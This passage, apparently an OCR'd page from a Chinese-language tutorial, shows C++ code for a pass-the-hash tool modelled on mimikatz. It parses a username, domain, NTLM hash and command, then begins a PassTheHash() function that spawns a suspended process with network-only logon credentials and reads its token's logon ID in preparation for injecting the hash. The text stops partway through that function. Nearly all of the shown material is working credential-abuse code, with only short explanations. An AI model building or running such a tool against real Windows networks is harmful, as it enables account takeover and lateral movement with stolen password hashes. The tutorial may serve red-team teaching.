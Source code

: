 ```c++
				wprintf(L"[*] Domain         : %s\n", lpDomain);
				if (GetArgsByName(argc, argv, L"ntlm", &lpNtlm, NULL))
				{
					if (GetArgsByName(argc, argv, L"run", &lpCommandLine, L"cmd.exe"))
					{
						wprintf(L"[*] Program to run : %s\n", lpCommandLine);
						PassTheHash(lpUsername, lpDomain, (LPWSTR)lpCommandLine, lpNtlm);
					}
				}
				else wprintf(L"[-] Missing argument : ntlm\n");
			}
			else wprintf(L"[-] Missing argument : domain\n");
		}
		else wprintf(L"[-] Missing argument : user\n");
	}
}
```

然后调用自定义函数 `GetArgsByName()` 获取命令行参数，包括用户名、域名、NTLM 哈希值以及要运行的程序。最后进入 `PassTheHash()` 函数开始执行哈希传递。

# 2. 启动哈希传递

## 2.1 创建挂起进程

编写 `PassTheHash()` 函数，如下所示。

```c++
BOOL PassTheHash(LPCWSTR lpUsername, LPCWSTR lpDomain, LPWSTR lpCommandLine, LPCWSTR lpNtlm)
{
	BOOL status = FALSE;
	BYTE ntlm[LM_NTLM_HASH_LENGTH];
	TOKEN_STATISTICS tokenStatistics;
	LSA_PTH_DATA pthData = { NULL, NULL, FALSE };
	STARTUPINFO startupInfos;
	RtlZeroMemory(&startupInfos, sizeof(STARTUPINFO));
	startupInfos.cb = sizeof(STARTUPINFO);
	PROCESS_INFORMATION processInformations;
	HANDLE hToken;
	DWORD ReturnLength;

	if (StringToHex(lpNtlm, ntlm, LM_NTLM_HASH_LENGTH))
	{
		pthData.NtlmHash = ntlm;
		wprintf(L"[*] NTLM\t   : ");
		PrintfHex(pthData.NtlmHash, LM_NTLM_HASH_LENGTH);
		wprintf(L"\n");
	}
	else wprintf(L"[-] Ntlm hash/rc4 key is incorrect\n");

	if (pthData.NtlmHash)
	{
		if (lpUsername)
		{
			if (CreateProcessWithLogonW(lpUsername, lpDomain, L"", LOGON_NETCREDENTIALS_ONLY, NULL, lpCommandLine, CREATE_NEW_CONSOLE | CREATE_SUSPENDED, NULL, NULL, &startupInfos, &processInformations))
			{
				wprintf(L"      |  PID  %u\n      |  TID  %u\n", processInformations.dwProcessId, processInformations.dwThreadId);
				if (OpenProcessToken(processInformations.hProcess, TOKEN_READ, &hToken))
				{
					if (GetTokenInformation(hToken, TokenStatistics, &tokenStatistics, sizeof(tokenStatistics), &ReturnLength) && (pthData.LogonId = &tokenStatistics.AuthenticationId))
```